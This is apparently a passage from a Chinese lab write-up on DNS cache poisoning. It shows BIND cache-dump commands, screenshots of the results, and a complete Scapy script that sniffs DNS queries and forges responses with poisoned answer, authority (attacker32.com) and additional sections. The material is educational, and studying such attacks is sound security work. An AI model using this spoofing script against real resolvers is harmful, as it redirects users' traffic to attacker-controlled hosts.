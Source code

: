    ```bash
   sudo rndc dumpdb -cache
   sudo cat /var/cache/bind/dump.db | grep -E "google|youtube|example|attack"

   ```

   ![](https://i-blog.csdnimg.cn/blog_migrate/6400f912fb1cf7e954fc49b5ed1b4a6f.png)
4. 停止攻击后，再次用dig进行域名查询，观察到返回的结果与上述结果一致：

   ![](https://i-blog.csdnimg.cn/blog_migrate/0a1b0b4249dfac14e467d7ee976f8776.png)

   可以通过时间、TTL来判断，确实是攻击前后发的两次不同的查询。

DNS缓存中毒成功。

#### scapy实施DNS缓存中毒攻击

针对授权域Authority Section和附加域Additional Section的攻击脚本：

该脚本既将授权域改成了attacker32.com，也将附加域修改了。

```bash
from scapy.all import *

def spoof_dns(pkt):
  #pkt.show()
  if(DNS in pkt and 'www.example.net' in pkt[DNS].qd.qname):
    IPpkt = IP(dst=pkt[IP].src, src=pkt[IP].dst)

    UDPpkt = UDP(dport=pkt[UDP].sport, sport=53)

    # The Answer Section
    Anssec = DNSRR(rrname=pkt[DNS].qd.qname, type='A',ttl=259200, rdata='10.0.2.5')

    # The Authority Section
    NSsec1 = DNSRR(rrname='example.net', type='NS', ttl=259200, rdata='attacker32.com')
    NSsec2 = DNSRR(rrname='google.com', type='NS', ttl=259200, rdata='attacker32.com')

    # The Additional Section
    Addsec1 = DNSRR(rrname='attacker32.com', type='A', ttl=259200, rdata='1.2.3.4')
    Addsec2 = DNSRR(rrname='attacker32.cn', type='A', ttl=259200, rdata='5.6.7.8')

    # Construct the DNS packet
    DNSpkt = DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa=1, rd=0, qr=1, qdcount=1, ancount=1, nscount=2, arcount=2, an=Anssec, ns=NSsec1/NSsec2, ar=Addsec1/Addsec2)

    # Construct the entire IP packet and send it out
    spoofpkt = IPpkt/UDPpkt/DNSpkt
    send(spoofpkt)

# Sniff UDP query packets and invoke spoof_dns().
pkt = sniff(filter='udp and dst port 53 and src host 10.10.10.2', prn=spoof_dns)

```
